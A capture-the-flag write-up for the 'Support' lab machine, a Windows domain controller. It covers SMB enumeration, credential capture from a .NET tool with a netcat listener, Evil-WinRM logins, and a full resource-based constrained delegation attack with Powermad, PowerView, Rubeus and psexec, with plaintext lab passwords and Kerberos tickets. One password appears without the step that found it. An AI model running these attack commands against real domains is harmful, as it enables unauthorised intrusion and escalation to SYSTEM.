


# Support



## User Flag
### Enumeration
As always, start off with a nmap scan.
```text
$ sudo nmap -sC -sV 10.10.11.174 
[sudo] password for toasty: 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-14 02:06 CST
Nmap scan report for 10.10.11.174
Host is up (0.029s latency).
Not shown: 991 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-14 08:06:58Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-01-14T08:08:51
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 165.45 seconds
```

From the scan we can see that we are dealing with a domain controller for the `support.htb` domain. We can also see that the domain controller is running SMB and LDAP.

### SMB
Let's see if we can get any information from SMB with anonymous login.
```text
$ smbclient -N -L //support.htb

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        support-tools   Disk      support staff tools
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to support.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

We do see an interesting share titled `support-tools`, let's see if we can access it and what is inside.

```text
$ smbclient -N //support.htb/support-tools
Password for [WORKGROUP\toasty]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 20 12:01:06 2022
  ..                                  D        0  Sat May 28 06:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 06:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 06:19:55 2022
  putty.exe                           A  1273576  Sat May 28 06:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 06:19:31 2022
  UserInfo.exe.zip                    A   277499  Wed Jul 20 12:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 06:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 06:19:43 2022

                4026367 blocks of size 4096. 966185 blocks available
smb: \> get UserInfo.exe.zip 
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zip (1183.4 KiloBytes/sec) (average 1183.4 KiloBytes/sec)

```

We see a few different files, but the one that stands out is `UserInfo.exe.zip`. The other files all seem like standard third party software you may see installed on a machine, such as `7-Zip`, `Notepad++`, `Wireshark`, and `putty`. But the `UserInfo.exe.zip` may be a custom application and if so, could have some good information inside. Let's download it and see what it is.


### UserInfo.exe
```text
$ file UserInfo.exe.zip 
UserInfo.exe.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
                                                                                                                                                                                        
$ unzip UserInfo.exe.zip 
Archive:  UserInfo.exe.zip
  inflating: UserInfo.exe            
  inflating: CommandLineParser.dll   
  inflating: Microsoft.Bcl.AsyncInterfaces.dll  
  inflating: Microsoft.Extensions.DependencyInjection.Abstractions.dll  
  inflating: Microsoft.Extensions.DependencyInjection.dll  
  inflating: Microsoft.Extensions.Logging.Abstractions.dll  
  inflating: System.Buffers.dll      
  inflating: System.Memory.dll       
  inflating: System.Numerics.Vectors.dll  
  inflating: System.Runtime.CompilerServices.Unsafe.dll  
  inflating: System.Threading.Tasks.Extensions.dll  
  inflating: UserInfo.exe.config
```

After downloading and unzipping the EXE, we can see that it is a .NET executable file writtent for `Intel 80386 Mono/.Net Assembly`. 

```text
$ file UserInfo.exe    
UserInfo.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

### Give me Mono
We can run this on our Kali machine, but we need to install Mono first. [Mono](https://www.mono-project.com/) is a cross platform open source implementation of Microsoft's .NET Framework.

The instructions will vary depending on your OS, but for Kali we can install it with the following command.
```text
sudo apt install mono-complete
```

### Running UserInfo.exe
Now that we have Mono installed, we can run the executable.
```text
$ ./UserInfo.exe        

Usage: UserInfo.exe [options] [commands]

Options: 
  -v|--verbose        Verbose output                                    

Commands: 
  find                Find a user                                       
  user                Get information about a user                      
```

We can see that there are two commands, `find` and `user`. Let's see what the `user` command does.

```text
$ ./UserInfo.exe user                        
Unable to parse command 'user' reason: Required option '-username' not found!

$ ./UserInfo.exe user -username fakeUser
```

This option has a mandatory parameter, `-username`, but hangs when trying to run it. Let's try the `find` option now.

```text
$ ./UserInfo.exe find                        
[-] At least one of -first or -last is required.

$ ./UserInfo.exe find -first fakeName
$ ./UserInfo.exe find -last fakeName

```
We need to provide a first or last name, but trying either `-first` or `-last` and the program will hang. However putting it in verbose mode, we can see that the program is trying to run an LDAP query.

```text
$ ./UserInfo.exe find -first user -v
[*] LDAP query to use: (givenName=user)
```


#### Connecting Back Home
Since the domain is `support.htb`, we can assume that the domain this EXE is trying to reach is `support.htb`. We can edit our `/etc/hosts` file to point `support.htb` to our loopback address (127.0.0.1). With this new knowledge, we can try set up a listener on our attack host on port 389, which is the default port for LDAP. We can then try to run the program again and see if we get any information back to our host. (Don't forget to change your `/etc/hosts` file back to normal after this)

```text
$ nc -lvnp 389                                                                     
listening on [any] 389 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 49694
0<`7
    support\ldap$nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

We get a connection back to our host that appears to contain a username and password. Let's try using `netexec` to validate these credentials.

```text
$ netexec smb 10.10.11.174 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

Attempting to `evil-winrm` to the machine with these credentials does not work though.
```text
$ evil-winrm -i 10.10.11.174 -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

### Bloodhound
We can try using `bloodhound-python` to gather data to enumerate the domain. We can use the credentials we found earlier to authenticate to the domain, and then import the data into Bloodhound for visualization.
```text
$ bloodhound-python -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -dc dc.support.htb -ns 10.10.11.174  -d support.htb -c all
INFO: Found AD domain: support.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Found 21 users
INFO: Connecting to LDAP server: dc.support.htb
INFO: Found 53 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Management.support.htb
INFO: Querying computer: dc.support.htb
INFO: Done in 00M 03S
```


Unfortunately, no useful paths are found from the `ldap` user.

<!-- ### LDAP
Since we have a user named `ldap`, it makes sense to try to enumerate the LDAP server. We can use `ldapsearch` to do this, we do need to specify the port becase `ldapsearch` defaults to port 389, but we know that the LDAP server is running on port 3268.
```text
$ ldapsearch -H ldap://10.10.11.174:3268 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" -v
```

If we want to only get users, we can use the following command.
```text
$ ldapsearch -H ldap://10.10.11.174:3268 -D 'support\ldap' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"  "(objectClass=user)" | grep 'cn:' | awk -F ' ' '{ print $2 }'
Administrator
Guest
DC
krbtgt
ldap
support
smith.rosario
hernandez.stanley
wilson.shelby
anderson.damian
thomas.raphael
levine.leopoldo
raven.clifton
bardot.mary
cromwell.gerard
monroe.david
west.laura
langley.lucy
daughtler.mabel
stoll.rachelle
ford.victoria
MANAGEMENT
``` -->

We can check the credentials using `netexec`.
```text
$ netexec smb 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'                          
SMB         10.10.11.174    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful
```

### Evil-WinRM
Testing the new credentials, we are able to `evil-winrm` to the machine.
```text
$ evil-winrm -i 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'       
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> whoami;hostname
support\support
dc
```


### User.txt
Now we can grab the user flag.
```text
*Evil-WinRM* PS C:\users\support> cat desktop/user.txt
fec6************************

```
## Root Flag

Support group has generic all over DC. We need three programs, `Powermad.ps1`, `PowerView.ps1`, and `Rubeus.exe`.

```text
*Evil-WinRM* PS C:\Users\support\Pictures> Import-Module ./Powermad.ps1
*Evil-WinRM* PS C:\Users\support\Pictures> Import-Module ./PowerView.ps1

```

```text
*Evil-WinRM* PS C:\Users\support\Pictures> New-MachineAccount -MachineAccount VeryRealComputer -Password $(ConvertTo-SecureString 'toasty!' -AsPlainText -Force)
[+] Machine account VeryRealComputer added
```

```text
*Evil-WinRM* PS C:\Users\support\Pictures> $ComputerSid = Get-DomainComputer VeryRealComputer -Properties objectsid | Select -Expand objectsid
*Evil-WinRM* PS C:\Users\support\Pictures> $ComputerSid
S-1-5-21-1677581083-3380853377-188903654-5101
```

```text
*Evil-WinRM* PS C:\Users\support\Pictures> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
*Evil-WinRM* PS C:\Users\support\Pictures> $SD


ControlFlags           : DiscretionaryAclPresent, SelfRelative
Owner                  : S-1-5-32-544
Group                  :
SystemAcl              :
DiscretionaryAcl       : {System.Security.AccessControl.CommonAce}
ResourceManagerControl : 0
BinaryLength           : 80

*Evil-WinRM* PS C:\Users\support\Pictures> $SDBytes = New-Object byte[] ($SD.BinaryLength)
*Evil-WinRM* PS C:\Users\support\Pictures> $SD.GetBinaryForm($SDBytes, 0)
```

```text
*Evil-WinRM* PS C:\Users\support\Pictures> Get-DomainComputer dc.support.htb | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

```text
*Evil-WinRM* PS C:\Users\support\Pictures> .\Rubeus.exe hash /password:toasty!

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : toasty!
[*]       rc4_hmac             : A49096F6EAA01D9928270142CB95C868

[!] /user:X and /domain:Y need to be supplied to calculate AES and DES hash types!

```

```text
*Evil-WinRM* PS C:\Users\support\Pictures> .\Rubeus.exe s4u /user:VeryRealComputer$ /rc4:A49096F6EAA01D9928270142CB95C868 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /
[*] Action: S4U                                            
[*] Using rc4_hmac hash: A49096F6EAA01D9928270142CB95C868
[*] Building AS-REQ (w/ preauth) for: 'support.htb\VeryRealComputer$'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):
                                             
      doIFvjCCBbqgAwIBBaEDAgEWooIEzTCCBMlhggTFMIIEwaADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqADAgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBIcwggSDoAMCARKhAwIBAqKCBHUEggRxACDLGPkfrv8J5oa09/wX/Otbk/SWwL7pCEJ0W/nd6OO0mtEdonSN/wSkG7TNsDRhz19B4aDVfxWfj
CM4wV30AfDl7SxUwQUTCvR1Ssg6ekVZqZf+/eyjwLFk5xbOxGkat/fDF4COhSgYy9FO5UdqQ2sfdmAqDjLcR/TXlpRwypfvEJvl2/CWATq8e0tCM6V6MgvZRN1+BcmyPDnKIN9rMgQmvZQhyqYG9YXyE7m7SNoDQhqHzmviu3vfrhrVF1ROgZuTAce9MQd3kLAqugDoyrhYmlEcrYIFKlSC/k/g0BVJ3xg7e0wrxLw7
HJukOHkh9bIFFsqAyH8XbpOqVww3gH2aCPqnrgp0Q8I2cxSdW2XzpySTpNKGUrXgl1uD5f6FIAbsaVvc6O9OX/mrA7lwGCoGuq2X40/0eLPBOmm8/NkYeBhTQLwUKEgQBbZJ62ibPjX71dRt2zg5lS1GkiwQWEurLTClGC8mbKwOA6cyAzzTqgKamrdni1Z+L56/7GiItaPh80wGzKvyicMghd/p0iXTdFvt9ukSHax
3jDU+fb4b//xa0H/xgmIxX5xWXeYEi9JIwC6DbPY0RInvcqSgwjHYSNJq7P/zS090FYcoANmJKWTNGZqVsEPzidU8tZFtZsEkyRPW8Ru8snbaTVXIVCFsMgvP1JKuQqDqmh69BW4pqB76IXw3UazgZBTO1UrdkkgS+Ci8qV4sPnSE7Y8VaNvsHL8Fgzig+J4duboclh3iDytnFFFaUy16UxEhsIVf8T/rBncpPwibog
1fnGGJUV/Uj2LJKuODPgmLKgt2nVdhM2Tu7vHDVWtKGsA6fTPoUSQiBl/FsJTzKcg2ASGulx50FHGmPcyA04vH4OXLMcXDKr+WSsSA3l2K4tuL6zAd/rRLzDy+hFXLymJH0eREP8bynOyuVCE9dbPkzVAEAXCo3dwaqs6UocQiWF5U9FNsSIe+/QE6gWHa/hDACM8c3HDIfuDCQZkE3krtI60ghDUvdwzv9sd32iTpR
xxZqVQeI6EH1Mvpx0IBponF+cWb6c9bHSmHx2ydrsKkwQhC71ohPo6t2aIHeCTk9mwES+/uSndKmoM/TOTZKE8yTiP6Xcg2dp8nkAnZoTGX5HByo+2cqMpcXosRhrzSKUsG9yrBgtRAr61Emhrzz+esoKIZHFvQZ/15XBiFhQjCYblbV92AgPY6kFGgRtF/Ver+TDG07ccHucWdEBf16KmXZmeHENx74cHIamVwFiQw
Cnxn5nR+pKteW2PY3hLV1bGg0F3K56zCqc4nZm4Ru4Lteufz/QCeWfItYeD+GhDuuDK3WlRMWui5xrh8zQujEwqjbMmFuO1pY7PMsHzKXg51OllDctdK5C6KKRZKr1onD2RQBnnszNfs/S4wIp4imiJ1btazIDEJ9wj2p5wlOgGpoVUdWR+TQh1Z164p0C8AotJyvpSm/WwbmscAXshyXLC9ZUZk274qrljEuLKp52l
4FavPDWIU2bMScFjRA7NFfoPPKtJ+o4HcMIHZoAMCAQCigdEEgc59gcswgciggcUwgcIwgb+gGzAZoAMCARehEgQQSVz7TrjWzj3G6zlfa/aSKaENGwtTVVBQT1JULkhUQqIeMBygAwIBAaEVMBMbEVZlcnlSZWFsQ29tcHV0ZXIkowcDBQBA4QAApREYDzIwMjMxMTExMDkyODExWqYRGA8yMDIzMTExMTE5MjgxMVqnERgPMjAyMzExMTgwOTI4MTFaqA0bC1NVUFBPUlQuSFRCqSAwHqADAgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0Yg==                                                                                                                                                                                                                                                                                                                                                                                                   
[*] Action: S4U
[*] Building S4U2self request for: 'VeryRealComputer$@SUPPORT.HTB'
[*] Using domain controller: dc.support.htb(::1)
[*] Sending S4U2self request to ::1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'VeryRealComputer$@SUPPORT.HTB'
[*] base64(ticket.kirbi):

      doIFtjCCBbKgAwIBBaEDAgEWooIEyzCCBMdhggTDMIIEv6ADAgEFoQ0bC1NVUFBPUlQuSFRCoh4wHKADAgEBoRUwExsRVmVyeVJlYWxDb21wdXRlciSjggSHMIIEg6ADAgEXoQMCAQGiggR1BIIEcb9vOF4Fb/DnkKUDfduRyYuvcvuzfoT5ahgo4z8xYAqQBSdku61g5SO3Ujrxfuj8GAERri2ppmllIMarH3m5iv7quH61c7oG1gbrqVVjvx/Xsn1HQto3y93fKGkmKJwma4PwcPP+3lhcmvht1R3Yal7TwMUdMODXXqVyw821I5w6HvvFCWFyIYx4kdPPVcLQpxqyalP+2fIsBQAzgmjdOgZxvOqFibWTLjHhzse6TFULHTAedSEO7yXH6V+/0DZWfFzU5qUSF4GQPHqM70EBCs9nzvskMbxIWPgZcnZ2lBIndZtqI6Is6HE7a5x1DvbeY8P/ZT6ltjEte8WT+pExGPmfGrk4N4PeFCI7HsaULMC+TUlY1CVWFBbu81ZPSIwaXeM0WCX5fFlsQI/dZZr3gSyKCG3wnrFThedX54BMgmf7ZzUwQCXWAo5y4JZcxLmoue8T9bc2qyhpINY3UjCJ4FgTg3E16q6ty5g4pRYibrOcfR5GIbo2RWrMPvCHxXaKsGlxGMIPFaX2wTIKC0cXDNTVrAgsv4Vr1g5i8SnuX0EaAZv+wRjCglDZ9LUKlViMH2JaRLlDfoBURJwUCsB4ZwXGGPvNDvInG32x+2h15IMWyQjIPBrIK6ZEdSDnuBWbgUzRD4PFxfUARSHP+NCuxSo8nI/lVhDPwy+bFqIU/iV6tFck0BYexcIYdgTlBHR0jY4JjesdKFZ6BH7AJL0N+NaIJYkuMo80QxUibVavVCJyCVULm5hsnHA0hawx9GrVzYC4OjwQKNjSOgk+2oqHkyh5prusLLSyLxaRJr6NdtlN+IZ5Nc6VohEDA/90N6f/6FLKXrBPEUoom3B9P76NJ8A7cU4NknxZogyyb+KtWAy4juZJuzwKb34HT0vVbQqrYDeuxsa2VYkeNE2GowkRghq9+bcgvVZojWGll0bo2hVxmqF8BzSgL1eC1GyWL3L8uHGEF3cUVoRL5uV1xptCIO08jQoesuERl+rgKOx4hNn8sVLIBULi/THkPNVwY5yZPU4yFdTuEApvDF3AW3EIGisTAx754PJIXGNZ9kkPbE8Z0Q76XNgcSkmD+u9qgkOD+EVIkGk1naGlDIlYaHuFYW03dTdhF5YY2RWPqfidK+0wB5VDY11ZU0IDO1qwA5HfO9Ouak/ljekgdlRq+Aje0OLFPwZEwEJm6ghCBZe8tSSRlzTu+oGASBxgDIy6ohlQqeIBXKsDepht/4tkweGZ3wndsaG9wSw35dLIWgcXpdrJjbfIWIZSCxXrsXKPTOmlj085UOklmEulFNylDfci3esrUJ8QQ8QuxQGdr+E6vQzgaYDfzssS71D4SjAmMZ1kYVYMAtvxuwkzVZvWdxBcyjeBWTMYvRmR4ZQKjhVRRErIVbeZSYAvB+seRGBAuGJP/9fNmBrYoJAj8j6rl6HbKrosBgQcCncbJ5bq9HOr932mTZkfmmrFOaKx8cinbJRt4nHQ/0AwT5jYPTIcRa/eIRHjOdzbpXNmPVRI0rjjsChOf6OB1jCB06ADAgEAooHLBIHIfYHFMIHCoIG/MIG8MIG5oBswGaADAgEXoRIEEIZiisSuKfskTxaFQQUJRCOhDRsLU1VQUE9SVC5IVEKiGjAYoAMCAQqhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBAoQAApREYDzIwMjMxMTExMDkyODExWqYRGA8yMDIzMTExMTE5MjgxMVqnERgPMjAyMzExMTgwOTI4MTFaqA0bC1NVUFBPUlQuSFRCqR4wHKADAgEBoRUwExsRVmVyeVJlYWxDb21wdXRlciQ=

[*] Impersonating user 'Administrator' to target SPN 'cifs/dc.support.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2proxy request to domain controller ::1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      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
[+] Ticket successfully imported!

```


```text
$ /home/toasty/.local/bin/ticketConverter.py ticket.kirbi ticket.ccache
Impacket v0.11.0 - Copyright 2023 Fortra

[X] unknown file format
                                                                                                                                                                                        $ mv ticket.kirbi ticket.kirbi.b64
$ base64 -d ticket.kirbi.b64 > ticket.kirbi     
$ /home/toasty/.local/bin/ticketConverter.py ticket.kirbi ticket.ccache
Impacket v0.11.0 - Copyright 2023 Fortra

[*] converting kirbi to ccache...
[+] done

```

```text
$ KRB5CCNAME=ticket.ccache /home/toasty/.local/bin/psexec.py -k -no-pass support.htb/administrator@dc.support.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file LYwWMslV.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service WJHu on dc.support.htb.....
[*] Starting service WJHu.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> whoam & hostname
'whoam' is not recognized as an internal or external command,
operable program or batch file.
dc

C:\Windows\system32> whoami & hostname
nt authority\system
dc
```

```text
c:\Users\Administrator\Desktop> type root.txt
68ff****************************
```
